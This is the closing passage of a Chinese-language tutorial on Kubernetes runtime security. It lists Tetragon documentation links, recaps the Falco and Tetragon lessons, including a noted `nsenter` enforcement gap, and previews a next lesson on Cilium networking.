- **[選擇器與動作的完整語法](https://tetragon.io/docs/concepts/tracing-policy/selectors/)** —— `matchActions` 可用的動作、各種運算子，以及同一選擇器內 AND、跨選擇器 OR 的組合規則。
- **[TracingPolicy 的概念與組成](https://tetragon.io/docs/concepts/tracing-policy/)** —— 掛勾點加核心內過濾這個結構的官方說明，寫任何策略之前的基礎。
- **[Tetragon Helm chart 參數表](https://tetragon.io/docs/reference/helm-chart/)** —— 疑難排解最後一項的一手來源：agent 容器的 `resources` 預設是空的。

## 下一步

Falco 與 Tetragon 這一段到此為止：兩套工具都裝過、規則與策略都自己寫過、偵測與攔截的代價都算過。它們共同的視角是**行程與檔案**——誰執行了什麼、誰開了哪個檔。

而今天有兩個發現指向同一個方向。`nsenter` 繞過攔截那一格，真正的修補位置在 admission 層；而這幾天所有跟網路有關的東西——被 `Sigkill` 一起帶走的那條 TCP 連線、Falco 那條「沒連過的位址」自訂規則——都是從行程的角度看到的網路，不是從網路本身。

[Day 7](sprint2-day7-cilium-kubeproxy.md) 換一個角度：把觀測與管制放進網路層，而第一步是把 Kubernetes 的 Service 實作整個換掉。

---

!!! quote ""
    Tetragon 標誌為 Tetragon 專案之官方資產,此處作社群教學用途。
